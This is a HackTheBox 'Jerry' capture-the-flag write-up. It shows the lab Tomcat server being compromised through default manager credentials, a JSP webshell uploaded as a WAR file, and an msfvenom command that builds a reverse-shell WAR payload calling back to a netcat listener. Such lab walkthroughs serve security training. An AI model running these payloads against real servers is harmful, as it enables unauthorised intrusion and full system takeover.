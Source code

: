 ```yaml
---
weight: 1
title: "HackTheBox - Jerry Writeup"
date: 2022-06-04
draft: false
author: "SH∆FIQ ∆IM∆N"
authorLink: "https://shafiqaiman.com"
images: []
resources:
- name: "featured-image"
  src: "featured.png"

tags: ["msfvenom", "jsp-reverse-shell", "jsp-webshell", "war-file", "apache-tomcat"]
categories: ["HacktheBox"]

lightgallery: true
toc:
  auto: false
---
```


## Nmap

As always, I'm gonna start with the Nmap scan with this IP address `10.10.10.95`

```sql
# Nmap 7.92 scan initiated Tue Mar  1 07:29:58 2022 as: nmap -sC -sV -p- -oN nmap/jerry_all 10.10.10.95
Nmap scan report for 10.10.10.95
Host is up (0.060s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-server-header: Apache-Coyote/1.1
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/7.0.88

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Mar  1 07:36:10 2022 -- 1 IP address (1 host up) scanned in 371.74 seconds
```

One port just opens at `8080` and it is `Apache Tomcat`. Well, this machine is straightforward. So, I'm gonna show, you how to exploit it with `msfvenom` and `web shell`. Let's go.

### Http (Apache Tomcat)
Let's take a look at port `8080` which serve as Http.


![apache default page](apache-default-install-page.png "apache default page")

It's just an `Apache Tomcat` default page after installations. So, I'll try to play around. Then, I found the `/manager/html` section upon clicking the  `Manager App` button. Also, I found the credentials on the `error` page.


![found credentials in error page](error-page.png "found credentials in error page")

### /manager/html
On this page, we can upload the `WAR` file to the server. Then, I'm thinking maybe I can upload some sort of shell since this is an old version of `Apache Tomcat`. 


![upload button](upload-the-war-file-page.png "upload button")

## WebShell
With light googling, I found this [webshell](https://raw.githubusercontent.com/BustedSec/webshell/master/index.jsp). So, I'm gonna create a new directory called `xploit`. Then, download it with the `wget` command in `xploit` dir. However, we wanted in form of a `WAR` file to be able to upload it. Let's convert this `.jsp` file into `.WAR` file.


![convert jsp to war file](convert-jsp-file-into-war-file.png "convert jsp to war file")

If the command successfully ran. There will be a new file created in your current directory. In this case, my `xploit` directory. Now, Let's upload the newly created web shell to the server. It went through and didn't throw any errors. 


![upload war webshell file](webshell-created-after-upload.png "upload war webshell file")

To spawn the shell, just click the `/webshell` path in the table. 


![whoami nt authority\system](run-the-whoami-in-the-webshell.png "whoami nt authority\system")

WOW! we just became `nt authority\system` user. Furthermore, you can upload the [nishang](https://github.com/samratashok/nishang)  reverse shell to get a proper shell.

## MSFVenom
If you like to get a reverse shell straight away. We can use the `msfvenom` payload and get the connection back through `nc`. First, let's create the `payload` with this command; and make sure to start the listener as well.

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=your_ip LPORT=any_port -f war -o shell.war
```

![msfvenom create war payload](created-msfvenom-payload.png "msfvenom create war payload")

The last step is, to upload it into this machine and double-click the `/shell`. _ET VOILA_


![shell as nt authority\system](nc-reverse-shell-callback.png "shell as nt authority\system")